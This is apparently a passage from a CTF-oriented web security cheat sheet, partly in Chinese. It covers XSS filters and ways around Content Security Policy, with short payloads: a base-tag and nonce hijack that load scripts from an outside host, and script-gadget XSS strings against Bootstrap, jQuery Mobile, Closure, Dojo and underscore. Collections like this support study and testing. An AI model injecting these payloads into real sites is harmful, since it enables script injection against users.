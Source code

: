 ``` ? -> %3f -> %253f ```
## Escaping Output

## Validating Input

## XSS Auditor / Filter (Browser)
[MDN docs](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-XSS-Protection)
Header: `X-XSS-Protection`

## CSP (Content Security Policy) (Browser)
### CSP evaluator

https://csp-evaluator.withgoogle.com/

### Bypass CSP

- base
    - 改變資源載入的域，引入惡意的js
    - `<base href ="http://kaibro.tw/">`
    - RCTF 2018 - rBlog

- script nonce
    
    ```
     <p>可控內容<p>
     <script src="xxx" nonce="AAAAAAAAAAA"></script>
    ```

    插入`<script src="http//kaibro.tw/uccu.js" a="`

    ```
     <p><script src="http//kaibro.tw/uccu.js" a="<p>
     <script src="xxx" nonce="AAAAAAAAAAA"></script>
    ```

- Script Gadget
    - https://www.blackhat.com/docs/us-17/thursday/us-17-Lekies-Dont-Trust-The-DOM-Bypassing-XSS-Mitigations-Via-Script-Gadgets.pdf
    - is an **existing** JS code on the page that may be used to bypass mitigations
    - Bypassing CSP strict-dynamic via Bootstrap
        - `<div data-toggle=tooltip data-html=true title='<script>alert(1)</script>'></div>`
    - Bypassing sanitizers via jQuery Mobile
        - `<div data-role=popup id='--><script>alert(1)</script>'></div>`
    - Bypassing NoScript via Closure (DOM clobbering)
        - `<a id=CLOSURE_BASE_PATH href=http://attacker/xss></a>`
    - Bypassing ModSecurity CRS via Dojo Toolkit
        - `<div data-dojo-type="dijit/Declaration" data-dojo-props="}-alert(1)-{">`
    - Bypassing CSP unsafe-eval via underscore templates
        - `<div type=underscore/template> <% alert(1) %> </div>`
    - 0CTF 2018 - h4xors.club2
- google analytics ea
    - ea is used to log actions and can contain arbitrary string
    - Google CTF 2018 - gcalc2


# Other
## aaencode / aadecode
- http://utf-8.jp/public/aaencode.html
- https://cat-in-136.github.io/2010/12/aadecode-decode-encoded-as-aaencode.html


## RPO
- http://example.com/a%2findex.php
    - 瀏覽器會把`a%2findex.php`當成一個檔案
```